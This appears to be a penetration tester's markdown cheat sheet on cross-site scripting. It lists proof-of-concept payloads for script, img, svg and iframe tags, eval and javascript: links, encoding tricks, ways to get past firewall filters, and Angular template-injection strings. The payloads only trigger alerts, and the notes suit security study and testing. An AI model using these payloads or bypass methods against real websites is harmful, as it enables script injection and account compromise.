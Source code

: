 # XSS
**Useful cheatsheet [here](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)**
**Comprehensive payload list [here](https://github.com/payloadbox/xss-payload-list)**
## POC
- `alert(document.location)`
- `print()`
## Unescaped Tags -> [Script Tags](3.%20Methodology/3.1%20Enumeration/XSS.md#Script%20Tags)
- `<b>STUFF</b>`
- `<b>STUFF`
### Encodings
**Worth double encoding**
- `%3cb%3eSTUFF%3c%2fb%3e`
- `&#x3c;b&#x3e;STUFF&#x3c;&#x2f;b&#x3e;`

# Sinks
## Tag XSS
### Script
- `<script>print()</script>`
- ``<script>alert`1`</script>``
- `<SrCiPt>print()</SCriPT>`
### Img
- `<img src="" onerror="print()" />`
- ``<img src=1 onerror=alert`1`>``
- `<svg onload="alert()" />`
### Iframe
- `<iframe onload="alert()" />`
- `<iframe onreadystatechange="alert()" />`
#### Manipulating Iframe
- `this.contentWindow`

## Eval
- `"-print()"`
- `";print()"`

## Href
- `javascript:alert()`

# Bypassing WAF
**Brute force allowed tags/attributes**
**Remember attributes may be blocked only on specific tags - Check all combinations**
**Remember to use Iframes where necessary**
## Neat Tricks
- Focus on element with ID -> `<URL>#<ID>`

# Angular XSS
**Identify page runs Angular first. Wappalyzer works well**
**Head of page will point to Angular source**
## ng-app
- `{{constructor.constructor('alert()')()}}`
- `{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}`

